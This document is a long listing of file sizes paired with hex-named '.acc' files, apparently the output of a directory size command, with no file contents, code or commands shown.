   585 22c46b9ad0990cf7a73fad02a7731184.acc
   584 22fb78ab39db7a6c496838f594e377b6.acc
   583 235f306703512e4e178edbfd427eb860.acc
   585 23e1d6517c1a96557eb394a7969ec811.acc
   584 245131960374afdfd3af75590d81ffad.acc
   584 24618f7079b4f5956459c1a10abbba14.acc
   584 254770162ed5902fbbaf2460e91bebb5.acc
   584 254c4a868ba0612edca14c19af07e30f.acc
   584 25ad3803118518c540b30e066e9f7a03.acc
   585 25ca010ecbb68e63f8f6e4df2dbc7a0a.acc
   584 25f38959dbf273accce1ca8957c69dd0.acc
   584 26678f1b6310e7619a2a39f4301fdeb1.acc
   584 267ed1121ea6c0c9e2551620b10be6c9.acc
   585 26ba609dea7477bcb7a17b0912ff0ab4.acc
   585 26ca8b69c7a1d37af08ede635b38ac25.acc
   584 2744c3aa5ea3c1e0c43ba0b07e6d7ab7.acc
   584 279e838eea41bd10c7d57738361fba64.acc
   584 281a248eac5b77324ea4b0871ad071ce.acc
   585 2839c1573b4e3e405f28b8e975d3f04a.acc
   585 28803c906e088ad88ec06e251c37db91.acc
   584 2891c5f2cfce57c5d7ce5eb17711ad1e.acc
   584 28ae5f87693c37f5b43b93d6dcb192af.acc
   584 28c5858b4c1f3f5272b505af792a131a.acc
   584 290af0ac02bd7a0aefa440273a797520.acc
   585 2928dcb8005fec74d484f4a44d55866a.acc
   585 2940290175b241c7fcf89c2abbfbfdfc.acc
   585 2946c98cb4e7da90b97c8a46f381e55f.acc
   585 29ab3224af5d2955eb9f6f9604b09b47.acc
   584 29ca4e8271e92fd18972da499d83faa9.acc
   584 29cb0f36e1b09fafd64dfc475cd154ee.acc
   584 29cf9851f990721b4078930a52371855.acc
   585 29e6bb8c09665df95fbf0c8ff5e184fd.acc
   583 29ee355c82a4bbe25787fc0b4d96dd45.acc
   584 2a0267dc11bdb1d6853b08335e9f030d.acc
   584 2a3d905e1abcf6d728dbb6f33e3b3093.acc
   585 2a87311fdee4da24b126bd114058b9e0.acc
   584 2acb388eebe1c2206052ac5ec3bd6edc.acc
   584 2b132b6e7781da0ff92bcc4a186e7173.acc
   584 2b3be36d865a5a40250942b5c8f54dbf.acc
   584 2bf7e04143696925b74ff2d58e48bb43.acc
   584 2c07b69f32dbd283b47b524edb0053ba.acc
   584 2c2fed06d94f69685882dac0d9ce9cc8.acc
   585 2c46469b9fac25ad81268c1d2998cdd6.acc
   584 2c51591fcbda7b91ca9f56b586f3ca55.acc
   584 2c5b01899d473f77962df31812601294.acc
   585 2c7701c77068b9ca7244626133c2ec8d.acc
   584 2ca3519fc00af7c9d63e58b9df82d4f8.acc
   585 2d07d6a5015dd654b4ca0f32a51906d5.acc
   585 2d2ef1d233841341c13d2d8938cae003.acc
   585 2d9e6682bb5f480978b1a8f61d375bd0.acc
   584 2db5f802521a622c4cd64c83eddc07d6.acc
   585 2e080ba377f32a78b84231e25673d519.acc
   585 2e5192979d89746230024fb2af498237.acc
   584 2e5bc9bbaa7e60b1bc88c5ffa46b47a5.acc
   584 2e8783c6f4ceba1ca5d9f091a7a3f319.acc
   584 2e8b4d1333646e8ed98637bf1793c78e.acc
   584 2ebac37c664663f382ddcf74c9295289.acc
   584 2f3cf398674340a1c3959e6ce1a4f902.acc
   583 2f6db9d426117b3921668d15c3667c7e.acc
   585 2fa45e4ec782cc8a067941b8a4e4eac1.acc
   584 2fb844630d50127f324bf0734046bc56.acc
   583 2fe3b2cc3fe0ed617e7650f7a09aa7e7.acc
   584 2ffe137ee7c65733590febfbfc5040ae.acc
   583 30033ed5c2aedb6b8e8babea24612974.acc
   585 301120b456a3b5981f5cdc9d484f1b3b.acc
   584 30a392f1433bd45a4bba176dc97c9de4.acc
   585 30df9189d0b3eeeeac5f691bba0fc293.acc
   584 30f837801133d02bad7737387693fc77.acc
   585 311b41a1d40429482b14e395f56423cb.acc
   585 31352ca79f8973c646dc89434f91080a.acc
   584 3154e6528069850adc415ae29414f380.acc
   583 31553a37be725d7b5d1add5acae714f2.acc
   585 31586fb5ead11d90c96bbdbb463dee21.acc
   585 31c0b98fc822defc124dbc16bfe44333.acc
   584 31d7f7440558b43d32b40a3927724fff.acc
   585 321d724386f8ab165f68fff922ee79c3.acc
   583 32203b71b000edd1b90258a14bf28a55.acc
   584 3293cf3299da33ed5e173453e98bab68.acc
   585 32bd197fe15d5ac657a7789f5adf672f.acc
   584 32e89b9885e8e2c7c3bd635bea89fd0a.acc
   584 32f6724fef117c0dc2de8e69180bc7e1.acc
   584 3313d744daa87043953a44fbb65b2981.acc
   584 33baf312460423d88dc681c5aafc0b0a.acc
   584 34457654bf404f9419d68bc8c6f580bb.acc
   582 346bf50f208571cd9d4c4ec7f8d0b4df.acc
   585 346dfb647268bec0a6e05bd60647b6e6.acc
   585 347c3e55d7823a9758de01598aa33f2b.acc
   585 3491e73a84a342b518cd7c7df3e5d6a2.acc
   584 34df994940887200e952babc211df6f3.acc
   585 34ef76485eadbb67f83a4fb1fef184f8.acc
   584 3545c87f1008dbaf5d6e1faf365dc00b.acc
   584 366d5953a9b993d1abec74d4bd4f47f5.acc
   583 377af4fb3c552283d364e04bdd45a2ab.acc
   585 378be8c1fedf59f60349f6bad4b7db95.acc
   584 37eab7fc827b5398e708fc8d9bf96adf.acc
   585 385e8f506e4d16fcb3b4f04cb2134bd1.acc
   585 386fe978dd93c84898ffed478ddfc479.acc
   584 387aa6875b5e6c7225e120ef577bb484.acc
   584 387f8c91842b29f0596a433847400d68.acc
   584 388a6d78ca9a5677cfe6ac6333d10e54.acc
   584 388bd4708d5399f3b57f01b743d41be8.acc
   583 39095d3e086eb29355d37ed5d19a9ed0.acc
   585 3918cc808d11bb1c24df866cc0e2a69c.acc
   585 397bfae2d17164399945b7e8e5630a86.acc
   583 39f65afc6e443a171c30bf66fae63db1.acc
   584 3a33c5bf7ef7abcf81c782a79a43d83c.acc
   584 3a682bcef6c37e5541e1fb543fa966b3.acc
   584 3a6cd651f5316bcc9794b1aedeabd72b.acc
   585 3ae7e40b423769e8829056053be4b770.acc
   585 3b0b0922fbcee3da3c6b7307bd1bb75e.acc
   584 3b44d9cbc04be9fb5f1a63e666203815.acc
   584 3b823513d5f5255facecc595b6c20c41.acc
   585 3bb925999bfe2f00e955e35ae5c45acf.acc
   584 3c03e292162c87b33e89e7c34a7a2d70.acc
   585 3c573c41d23c5c5b9ee8c2907d079697.acc
   585 3cc285ba7c9ab83973717b64f690d3e0.acc
   585 3cfe8573c12153ad69e3ebe9f2451783.acc
   584 3d3e2799ae9dab5057b9ef7dc66138fd.acc
   583 3d5e1f376f09b7704eb9309448db2320.acc
   585 3e15fba8222b4257f517f73ffa6e8dbf.acc
   585 3e4c7ee45bec4977653fa1ff687703a4.acc
   584 3e7269a8cbf32786733aa2073e29d867.acc
   584 3eab44115dce3fcadf150d7e98e2f456.acc
   584 3eb4295fbf0b2bac4aa20350246a6b9d.acc
   585 3ebc66c0b6e64c060e86daf2ce4c9a31.acc
   583 3edf797d706622fab4a57ba0a4af704c.acc
   584 3f3b9ba3a75e23bebe956760fff45a30.acc
   585 3f5377ebb31e50606f0d2cef73f49130.acc
   585 3f7dcbfa9956edfc1c680db5f56258ca.acc
   585 3f922da04764d314d9ad4ec29bd24ab7.acc
   585 3fc4b2d139b8ecbb0bec75345aeac132.acc
   585 3ff2509d974c2f4e36d87dcc7048b4d8.acc
   584 401c55932f8f4fbc27765e3b5dea3358.acc
   584 409a24500afa25affba8dab727925942.acc
   584 40e87fd7e03b66cbc81f8212c842d851.acc
   584 412c6df90bfa3a0d05fd7d8ab790d376.acc
   585 415e625085a1dcba383d97d16e9b2447.acc
   583 4176c547af366f716c6ae37755304425.acc
   585 41bc81ccd65b5ae21f181bcdc60a6c62.acc
   583 42261debb6bdfc4d709d424616bc18cc.acc
   585 4273dec45222434c96a4ebae56a3c840.acc
   584 42c5d406ee86e917bcf4cd83d254534b.acc
   584 430547d637347d0da78509b774bb9fdf.acc
   585 43c8b7a50ddfde5aa5fc736406c72423.acc
   585 43cb4089654f49c1894024af1d79239c.acc
   584 4402cb07ed0509855526702a4ece80f7.acc
   584 4476ecd1835548a4ffcb4de3feb21035.acc
   584 44987d36fe627d12501b25116c242318.acc
   585 45028a24c0a30864f94db632bca0a351.acc
   584 450c1b14e8b20b29b1fe9bc23b1f2878.acc
   583 453500e8ebb7e50f098068d998db0090.acc
   585 4586e7414d7567f91f965d8eb2647a6e.acc
   584 45c816e15e480fef2ca867297921cae1.acc
   585 45fad7b2ebd71ee55663f9d4c25d1cb6.acc
   584 46fcd5bef075246c7d2fd444b41745cb.acc
   584 47171c38422e049e50532e6606fa932d.acc
   584 4720f8f57866d9631d8d310093883175.acc
   584 476845627ec5658e15864a7766fea705.acc
   585 476e02d55e6e34295af15309d47acc49.acc
   584 47a5b5d54b15c594b0d41ce20c8fb113.acc
   584 482e09bc32d62b29b51c9d21a173ec14.acc
   584 486d802595c5498539495b30b658a974.acc
   584 48b68e11c3d8416e5db820f8dce9a1cc.acc
   584 48d9698c1ebba40ba8c4c3bccd69c061.acc
   585 49206d1e18aa8eb1c64dae4741639b2f.acc
   585 498f1ae1b09e6efbbd19097cdef6cc86.acc
   583 4996ea3ca285adb12a03d3dd8cbb4ad0.acc
   584 49ddeb6b6e65ce0c4fd7ac9d174e611d.acc
   585 4a41cda86cb132771f2e51e480364173.acc
   584 4a66b3ce8466bf011adb1dd9d1814452.acc
   585 4abf8c9aa0f414abd9bfe187b72461e3.acc
   585 4ae6ee6e14e6de520567c8c82b6beded.acc
   585 4b00b1be8ef8c5f73901e50d4d09470f.acc
   584 4bc7b8db43830d6a4957836dc18bf34b.acc
   585 4bf0266486768e0fdcd383973f08227e.acc
   584 4c13d888bd3ac3c2b1e84b50bf35a85a.acc
   584 4c6dafa3f684f42869b718b251b292eb.acc
   585 4cad3a11b7963ebfc70f703dd4811b96.acc
   584 4cf44a4d89128da4127db0bec1048c51.acc
   584 4cfb2d50597e6ed2f74334d218e5d8d6.acc
   584 4d083a8cf8154cd657341344580196a0.acc
   584 4d183c48bf0e826fe9f0248a2bd0ce1f.acc
   584 4d6d527e8e87c5c6edcd5e189688e377.acc
   584 4d7a9044e957b9cb0dffd2f7369667ec.acc
   584 4e4d7e09dc5de2768b2f670616457f73.acc
   584 4e7da1c5f107c306f55bee851108c402.acc
   584 4ebcb090a219d941e56c032cdac43669.acc
   584 4ec2f8f0fb700e23fad05ee516540326.acc
   584 4f1371b82592d1c8f92b91cf32509e5d.acc
   583 4f2ef432bf1238f085d4a4e519a1dfff.acc
   585 4f413171a5b4e0b82fd0a14edefcb175.acc
   584 4f61cf16aa405cbd9562831b725166f3.acc
   584 500b7e7e925fc1810c0081f49f9878aa.acc
   585 500f59a56cf27362df6df66852574348.acc
   584 50276beac1f014b64b19dbd0e7c6bb1a.acc
   583 508c160d0792912147bfb2f29b2bb136.acc
   584 50de687c0d3e1925c2e3e96b2a08b664.acc
   583 51e3753a2abd98a29f5344424b8a3db3.acc
   583 51e6542018c82a48cfe15db8954fbda8.acc
   585 5247cc2759787a72747c4376a88356e8.acc
   583 52a6f94974c07bd49cd9dc9f89501751.acc
   584 530cd80ef0fc59616c7eeed85c147bf4.acc
   585 5313f2c7094ceabfc44a02f61643be18.acc
   584 539fbd47a23717ee6a38e540e23e3c3b.acc
   584 53a7aa18611c1cf6bb13eccd34c8d2f9.acc
   584 53ee88051634f75d532271d10de0cc06.acc
   584 544e693182b1b4ffab54bc0bdd1f216c.acc
   584 54656a84fec49d5da07f25ee36b298bd.acc
   584 5492f0f786cc84fb1aee7bc3b17d0d4f.acc
   584 5512bf5534e85f5365db45183a714a26.acc
   583 556c5bd821268a5bf9b26de19c644e8d.acc
   585 55fef9f64a6faf3ada69a9ae9d098017.acc
   584 56215edb6917e27802904037da00a977.acc
   585 563738597d410751acc3378aec0e860d.acc
   585 56bca21e1e398d9e4ed8d35fcdd21312.acc
   584 56c314ff214498c70201785261a86e8b.acc
   585 56cf080080911de15d63db43a7c3c659.acc
   584 5703d0a083181849782ad1bbda821404.acc
   585 57aba757c2e288d93ebedeb80b7c0319.acc
   584 57e99d6f54ecdce53adcdd0efe8d00b0.acc
   584 5814e18d74c311e709cab1ef69cb7b7e.acc
   585 581e4dfc04729f53cb5b461a26b43175.acc
   584 5865c9a855bbc327b8a2fc6db3d86917.acc
   584 587ca22ea47c6fb4c603e929d0456520.acc
   585 58a69d5d011af16b12f0a81107be3d24.acc
   584 58e21d4294200a2754f190cd15b4cc27.acc
   583 58e63112be4258f4568ef480ef47da5b.acc
   584 59829e0910101366d704a85f11cfdd15.acc
   584 59ce6c145b9ddfc95f0bed4baa6f9197.acc
   584 59fa74f31a724ab1383360e255a0e711.acc
   585 5a06163947bacb35937b94976524b9e9.acc
   584 5a62c5fb945007bed47e6e4c114d3be7.acc
   583 5a6f81da012f11f463df711758a7d98c.acc
   584 5a8ca8184c7d197a07716f3b239f5f30.acc
   584 5a92190fa06db59ca8d12f761ef5df66.acc
   584 5b275de0f3930d538d41d38012f9f99f.acc
   584 5b2fd16a5027dca9714596e1f1900ee1.acc
   584 5bc9e0468db90310e045ee1cef02ae49.acc
   584 5be15dbd24aa31b6de43c69234a72c19.acc
   584 5be5196a9bfbf55be5322576b6cf2ec0.acc
   584 5c7fe7fa7cde31ec7f6460dcc866b2c5.acc
   585 5ccfc5c5060c6f7eaebc7b360bf1fb5c.acc
   585 5cf5a255a6ac6c51fce18b20de1fc6c3.acc
   583 5d20c77d44fa9054a4822b2cc42aaf6a.acc
   584 5d364c970049e9a1ddeab46685ee95c2.acc
   584 5da2cf0551e5d9a82e264b842e2fef39.acc
   583 5dcd2d4cc2f5ebf971da7b9577313fc6.acc
   585 5dde5175da535b073504fa6222da07af.acc
   584 5e2554c58bc13c6398bfc3bd3b8bea5a.acc
   583 5e496ac0ca6259ee6ddd18c7e784c4bd.acc
   585 5e80dca0989d5f4a076146f7aa859c20.acc
   584 5ee81d3848dc565d16f84b8023c78d35.acc
   584 5f50c17e7e3ffccfd65721e30808a54d.acc
   584 5f60a464918c3d8d17940fdd31dd487b.acc
   584 5f632234377f9af6442ea29d8aff30de.acc
   584 5f83801c9d2788e006ac5878415aa113.acc
   585 5f9de9bd6cee286315cbe49e5d31c2d0.acc
   585 5fbbd0af8aff8f966d119a7de8e123ac.acc
   584 60ce46875da3a71989de7d5ff4aea73a.acc
   584 60de900180b1e32efcd6fddeeaebfdb7.acc
   584 610fa1e1fd8a8a74b5da05a6c029473a.acc
   584 616058320a920bbc1078572b9f1b6b70.acc
   584 618a6cf12f8be23f4f425129f4487c53.acc
   584 61fbc3bd099c1b5bf6abe0df0246863d.acc
   584 6218cd1ca8743a36fabfc189c4e3288c.acc
   585 624ab87c34e95964f842598d2a5af800.acc
   583 6272e6fde32336fbd46ce0056234965b.acc
   584 62a7e0ad3a6040bd58bf74b27912aad3.acc
   583 631a75b70b8724266b9c50b79a66f580.acc
   584 632416bbd8eb4a3480297ea3875ea568.acc
   584 63f56536ccbeb53f86180241feedb579.acc
   585 640087eae263bd45eb444767ead7dd65.acc
   584 6427c41c712d10bde42c5231a058261c.acc
   584 64cc0529536e5e6c7a99716743e8736f.acc
   584 64e321bd2ca29ce92f8794d070dc610a.acc
   585 65733941cafa352d30dfbdc7580d023a.acc
   585 6575141b4812a7fef638ace04b19d0c7.acc
   585 65c2e22dfd5c3cd4ec160c641925aabd.acc
   585 65f00eed6eb9cc15e2bb8fdce2fb12cd.acc
   584 66284d79b5caa9e6a3dd440607b3fdd7.acc
   584 66c7b098bc08fc357766252f3f3e8051.acc
   584 6700bd647e3c7f1a577ef7335b64e92e.acc
   584 678e183b3178e7921df2a5a7a3a5778b.acc
   584 679d6fe1e0d242f848e3f919d8c00877.acc
   584 67c1530e6d052befe61c27c7935f710e.acc
   584 682bbcc46c90afb5e2aa6feb361ba771.acc
   257 68576f20e9732f1b2edc4df5b8533230.acc
   584 68c3a3ac26417379fcc695e14aa36f51.acc
   584 68e1781b0492331302362108c6ceb81d.acc
   584 695cc486245e700b16b43e258ce15ea7.acc
   584 6a02166c0d69d4f4a81f0e773923da2f.acc
   584 6a8727b0306a2efbd5eba6f4026fdf6b.acc
   584 6aeaa4873136f7d21a3ba00fe3a4bb40.acc
   584 6b23ae70d9c694a8f43b0ea455f33223.acc
   584 6b5e880f00cb0a06cc7bb8883ca4246b.acc
   584 6ba0c8a624ae32999847adb2b217017e.acc
   584 6bcd10214c86176e8c810b179f87ccf3.acc
   584 6c0925ad3a766771c79e7337e33a6d8c.acc
   584 6c2baf5043cac2a7bd0ec8ba8067b45b.acc
   585 6c4fec2702b25900b66379a02b54ae24.acc
   584 6ceca1d2b3c6a95ece973b660500db6a.acc
   584 6d0b2f0cd5a45ec822d779f9ffb1653a.acc
   584 6d50c71fb7435ebbece559a5a3b536a7.acc
   584 6d5d247ebfc4795d2c83676a43e88d1f.acc
   585 6d9666eac9b05c37d68cbcbcb24c7609.acc
   585 6e6c81b5d36cda27b14bf5bb52888625.acc
   584 6e742f8451c5ec6dc5f531a390c97b7b.acc
   584 6ed19aeaf42959eb8d96b7eb29e5d3e4.acc
   585 6eecbc937801fa028da31d0323077a86.acc
   584 6f3d197021dd9b9a089147483e317263.acc
   584 6f697ea29832716004b565b9e2a974bb.acc
   584 6ff05fe0459f5a96fc0f65ee6a70d5cf.acc
   585 7053af4bcb72fce3b093fd4847070f29.acc
   583 70adef1fa6974f1fc074f669b5f5228f.acc
   582 70b43acf0a3e285c423ee9267acaebb2.acc
   584 70f0b318435ade66c82d93bb770b6ced.acc
   585 70fb7ee7eb269c313db283def6ab7d09.acc
   585 718772467ce8bd9c269aebb2e25ebd2f.acc
   584 71aae80069a4da7645691daa3d2c5377.acc
   585 71c6d088ffa6532bd971a94224142780.acc
   584 71c9fffe15fbafc620deace20b7c5eb6.acc
   583 71e11c0830a96debe4d53669c6cb6149.acc
   583 71fb6e8200897f051710b9eca09c1957.acc
   585 726a000b87b8e3ae49e2d0039a216fc0.acc
   584 72b4c66c76496c6b042719aeb851f526.acc
   583 72d21e93a5b484619d0a6393ea54d76f.acc
   585 72f6e953d2eb1efacaef199dc21aacc1.acc
   584 731d836d632dbe827ba83ed1dd904e46.acc
   584 73e4380e5ede97598e662531ed11a5fa.acc
   584 73eedfa54a99abf8c4223588741118f2.acc
   584 74a3863d401f4876b428bb498974a8bf.acc
   584 74a61a46248d4caa926e1938aecc6534.acc
   584 74dfe9c8d9defeac563057852db6c94d.acc
   585 74fe6e35b2588a89adfd936a8b458a53.acc
   584 756431ad587f462168df5064b3b829a8.acc
   584 758b39c317821013b180ae057bc16d83.acc
   584 75942bd27ec22afd9bdc8826cc454c75.acc
   584 76123b5b589514bc2cb1c6adfb937d13.acc
   584 779a7750a1723d388731bc20c6b05b35.acc
   583 77e580bfc95b1c0a89fe3b886dd961f9.acc
   585 7804840b63cad3132d2a222818e34766.acc
   582 780a84585b62356360a9495d9ff3a485.acc
   585 784e81b0f924ffc73318724185f5ba0c.acc
   584 78a312e0b1ac485db1b5a00393f55994.acc
   585 78e242e6d759c6e35520071b33f00e97.acc
   585 797e1abe1c99424aa7856f6c9f136cfc.acc
   585 79b96225cc4705c9d7f4630f1482b6da.acc
   584 79d260a20a4bd04419979fddfbb490aa.acc
   584 79f06acb23f58e97899738c1b32e0968.acc
   584 7a16f1be3e1cce885b855e888d413617.acc
   584 7a2a9752443f4328dbb9a5f4431b1f94.acc
   584 7a3062ecd98719e7faac95a4efe188ee.acc
   584 7a323fcd47afe7cc6248f2fe6e4f8802.acc
   584 7a6c81c0e6780f912586590a9bb3d4e9.acc
   584 7a747011ee218e9e45365c3169a24754.acc
   584 7a7a849d65b57600abea91bb986bdee6.acc
   585 7aaeca9d4bb6725b0616597a393a3d7d.acc
   584 7ad216b66bbc8be33e71e9b75b974398.acc
   583 7af56b5821f745df33ba3a5fb0dd7009.acc
   584 7b38a14ce39bdd4b91eb69ec02a81f84.acc
   584 7b7cc0505cee71ab02c533fd2db29cde.acc
   585 7bd2b3a05795e2d216cac59bb405f079.acc
   585 7bee4f51ff23066e9e909ac84873e9c6.acc
   583 7c92466f303a24f50b2880870dea0610.acc
   583 7c935e676daa9216ac53412b7a47c1f1.acc
   584 7cc381a31b1252eb63067fef61319152.acc
   583 7ceed45c2f5a9b3d39155cc8099b1d4a.acc
   584 7d759940684fb5fdf8bb7c0749ca302f.acc
   585 7d7dff306be634f864e92a6b038dea8b.acc
   584 7d882d79b353d4329ec6f61fdaf4dbfd.acc
   584 7dc9403b60d10a21d8f44bf9948095dc.acc
   584 7dd19db14bcaff9c2ab24ceef3217014.acc
   584 7dece92a80bd61d390d0589b118234d1.acc
   584 7df22b5113da890e88705dde5b8a9871.acc
   584 7e16990ea08e7d261645c60447ae412f.acc
   585 7e4cf8e1c1950a8e1da8e937901ff657.acc
   584 7e65bc0bdba7609f0fb85f5411e79163.acc
   583 7e8730a34c228f96819155f5f29eeeb9.acc
   584 7ee435673a9a537131903ce74fe908f7.acc
   583 7f44276326c185b7e8bf1cb2ae0c02e3.acc
   585 7f4d9c6e8a185bd54a2bb3266b239f35.acc
   585 80416d8aaea6d6cf3dcec95780fda17d.acc
   585 805c369e5114713021dbb49b374845c1.acc
   584 8087166ea0cbc15e43de374cc4179424.acc
   584 80d73c3bbdc077edb98daec9ff26d933.acc
   585 8116eebed5657173e44eac5f834c6dd7.acc
   584 823e6084e33c3cbf609bcb946fbb5098.acc
   584 828bceeca877d2c73e5836d11e1d832b.acc
   584 82c22539af6f7d928133b7b1f8abeeec.acc
   585 82c3d67857c36d3f97535a6d211272e3.acc
   585 8417fa43902ff7f26fb4cf87f0d428a1.acc
   584 844cebf2af0bfdde679e8e72d2337717.acc
   583 845b82de5081018fcbbd55e63cbd04c9.acc
   585 848e888aa97a6370a04b077d7de5a565.acc
   584 84cf9f79d28237d50c98ba165b000bab.acc
   583 84d39f534a1a7ce6f151c0a6d5c1e6c3.acc
   585 84f283b21104e9172dbf083a86cb1da9.acc
   585 84f8b63a767058af39d96477fa557487.acc
   583 85006f1266226e84efb919908d5f8333.acc
   584 8554f463517b7f7f70c2e0a8b3e72b64.acc
   584 855b1ce8edf8b2e059444b290b678210.acc
   584 8578a01a81a21685c098b08d4a3514a0.acc
   585 858a0d9ead484a5452940683dfe75356.acc
   584 858d42e024586e34cf961bcd8c52fc26.acc
   584 85e9087a32f5f9ccf8eab9fe2acf9e7d.acc
   584 860826651b3c5c5f11cbc9985b9c53e0.acc
   585 86afd07fd9b3e161d4110a05efbc4567.acc
   583 86d458e4636c5aaac4985f7521ee6639.acc
   584 874792fab530aed50b38b26f2a8c1870.acc
   585 87831b753b8530fddc74e73ca8515a50.acc
   585 879f0957ad3ed3f46f2bef382fcde256.acc
   585 87a3209fc8d2d8ebe98e40bac4ce78f0.acc
   585 87b0476d46f9b5bf71be14e4447e0ec1.acc
   584 87def2435b8b7dfbc1cb90e594b48a4c.acc
   585 87f2fd14ae5dd0b04fbf96d8e6768283.acc
   584 884f78f576290e70b234f68cc2b75565.acc
   584 889298fbc7c3ed6d6487da1b725a3d06.acc
   585 8915138a77e6474ae29f6b06e109b7ff.acc
   584 897ffb89e0066d9cbb92666cd2e92960.acc
   584 8a0c42c20d3cc111e294dd14d523b149.acc
   584 8a2b4b1782cbd4660ce40085d31317b7.acc
   584 8b91eedc4a7f3fa84360dca78e2ab618.acc
   584 8c5bc636a713df10a0b267dbdce15396.acc
   584 8c92082936170befc74bde36ed0507c8.acc
   584 8cd768d35008b86c017e341aa4b0bce8.acc
   584 8ce4aa658a58f13de583838f62ddc5ca.acc
   585 8cedbedfff70a3528fbebfee0fe0c4a3.acc
   584 8cf431f4c9ed8b09aeaa97b6da4eac57.acc
   585 8cfb0967df2394db4375ccc542fe2618.acc
   584 8d33eab2dc9fb1ba85fcbb9db580eb5f.acc
   585 8e6493afb68626079c3a153ecc2bc532.acc
   584 8e99440294d984f80beb6d5d9aa95637.acc
   584 8ef95b6bd6c84e5ea7b1c0c765f9e7b8.acc
   585 8f00e7f326d98a8f40b0db62a55c01d5.acc
   584 905fe459c1ae841af1138abf7a49a960.acc
   583 911be9d5ece260e1789c21cc8997bbe9.acc
   584 91249b887c7bf3f6cb7becc0c0ab8ddd.acc
   585 916462152b12cacd3b7a982c8fd1206b.acc
   585 916da122c11e2e240be7647d3943ac6b.acc
   583 91ac85b6679b679cfcaec44e9e91db0f.acc
   585 91f56bdaaf319e141d7784413028d0fd.acc
   584 922bb20268e664d4571a234836f68b7e.acc
   584 92579940417f9ae8d23f3274830ceeaa.acc
   584 925a13e731e148e32a024d57905883cf.acc
   584 9281c329f634b4b2cd88a6defcb7bd86.acc
   581 941e55bed0cb8052e7015e7133a5b9c7.acc
   585 94290d34dec7593ce7c5632150a063d2.acc
   584 9485920a1460f5b8a5ce891e19c321a1.acc
   584 94b434c6fe64eb8f08f50bbcc4f4fb57.acc
   585 958753e5d8c5896a5570dd1fba2c2f11.acc
   585 95a9ed9af4c22584f165f5b43520b377.acc
   585 962607e2656d81d6dbf9d1a85142b144.acc
   583 9654eabf734023323c0fa3e8ed894c65.acc
   583 973a3382433a21d7bdb1cc0f8f813f83.acc
   584 976358d4677bd2938987d334bb6f283d.acc
   584 97b93d510fb8e5946d975d81a53562de.acc
   584 97cb4404efbed5404dbd3c1023f226e9.acc
   584 97daa2d02c5a4c6a68f81f6e7196a9eb.acc
   584 9829ce4147ce5ba39e4e95ddb7254b73.acc
   584 9833b80712e7a1e77e86a2dfbaba8278.acc
   584 984c8ac0662b0368642ddadf106bd1aa.acc
   584 98a9d9ac52319098a6ea778e6ec559ee.acc
   585 98fdde8e57f46c48d6f8eff627c7bd6d.acc
   584 998dab6a74e39fc6d830d3569c9eea50.acc
   584 99aad93853d637ada481588dfc223c56.acc
   583 99b73c36a3f627bca6cf01689505081d.acc
   585 99d49fb7fc00f549eb036dd473964ca5.acc
   584 99fca069a084b394d4a54401008c0651.acc
   584 9a885af05f71935ae8fb9cbbc07f6c57.acc
   583 9b18bdcbae98a8fadfd7baadbbab92ac.acc
   584 9b1b85b68b76774b9e97f12d4e685297.acc
   584 9b38ac5ba7ca3e908bbc52656963ff1c.acc
   584 9cc34a3225e3d56ef6ca75d48d1bfeb8.acc
   584 9d1ccb2a318fe144d1787744870973ca.acc
   585 9d7bfd31b36dfb3819bfcd38d2a2a6da.acc
   583 9da8237625c9c0415c890bef3ba6ebc5.acc
   584 9de044238ee025b4a846affc64cc5233.acc
   584 9e2946901fe6cb9fc604a12d18db1722.acc
   585 9e46683ea1755a3751709b04e37571e4.acc
   584 9e714e03d30847b9faa6f7f34041a818.acc
   584 9e91dd7524e1a9e54af255b02eb3f06a.acc
   585 9eb94f160af437fe9df9da2416072508.acc
   584 9ecf16cf62123f6cd5b5cea0f5864497.acc
   584 9f07f9526589a189370b73a3b29a4d9b.acc
   584 9f0c5a3cc09e7a3cd0debffdee919bb8.acc
   584 9f3c06e35412753ec225c292b7cbc0f2.acc
   584 9f6357464ddc2017fff1923f28835cf7.acc
   584 9f936f11fb62fc8b30e3d86ff7c0f8cf.acc
   585 9fb8117ab5d757240cd6ef209f85471a.acc
   584 9fe63f9d1390025ee2e3c735c1a75082.acc
   585 a19983a3444c9f01bb4afb8f985c92bc.acc
   583 a19e0c370602300554e6a997b9dc91ad.acc
   585 a1a96ff9ea385289c05d16230b509aeb.acc
   584 a27d0aa5e218c89d734cd7c169f7f4f9.acc
   585 a2881d3dd5ee59e95e3ba1265b2a68a2.acc
   584 a2a532abbf06c0e084f508b5f14de219.acc
   584 a2e24c98892ca93d1201c80f42c994e4.acc
   585 a2f5e3d1b3733a1a40ac6ac4bd7c2182.acc
   584 a3009c3a4e00b5c5c760f7b43643bc4f.acc
   584 a3692632944476a25b92d486c17c6962.acc
   584 a398fabe8a9cf8411e32841e10f64dd6.acc
   585 a465e6dcb80571d0c1a4c50656db1e3f.acc
   583 a4faa925a6f8d2c6027d5934cea9a103.acc
   585 a53a4eaab8be6c4b8569fd407be54287.acc
   584 a5ae203a96c1b48cc51f38e2113b51e2.acc
   585 a5beea9b526e1fa0916a2a1c2297ad14.acc
   585 a5d269a562c49d467a5102643bd35a8c.acc
   584 a5d757244998b2d9ec1d9b88da0c17c7.acc
   584 a5dd7a85f0c5aef27255defb4059cab6.acc
   584 a6012bfc5cbd982890ccd874df0acb63.acc
   584 a648c7b7032a91bf38440a56b7f1bf26.acc
   585 a6566c5ba56c080595346fb4f75175f5.acc
   583 a675e030fbf19a997ca2a03c096c7162.acc
   584 a676fde116361fca31ee46e2568e0ff8.acc
   584 a6a253ff3c0058a8218eba01acddaa38.acc
   584 a710f853274ebac3bbdfa39d1498b131.acc
   585 a75e327f24e14d77509c39cf53c2eb9d.acc
   584 a7c061a1de903c3498d4a96242d16244.acc
   585 a80f454ea328eeb74bc50e0c2af5c33a.acc
   585 a909fd3d565cdc5e67c7b25563733b3a.acc
   584 a9304d76fefb2a8b05e7e33bb96c5e0e.acc
   584 a940beb305934c9e105340f21528b1e4.acc
   584 a98fe279ce82b3e7566be14540cdfd87.acc
   585 a9bf73c62737a6c16b95651c046fe3f1.acc
   585 aa1460476704c4ab045ba3583b34a319.acc
   584 ab184ebb41fd49201e47e6d9e7995c0f.acc
   584 ab4e2a922a7f3a3c8600276866e05a4e.acc
   584 abbdef22ad2cd61ce2b88efdc1fd4068.acc
   583 abcf40e21740a1c04a9a3566497c0892.acc
   585 abedece2083ec0ce5bfd9b8287073e1f.acc
   585 ac2916a043bcbeb801691afed44274d8.acc
   584 ac4f23bdb45a02602a6501e28993060e.acc
   585 ac4fd9384634602b2d74305a18648577.acc
   585 ac6d61e69c240fe11d6ca4b6acc35aff.acc
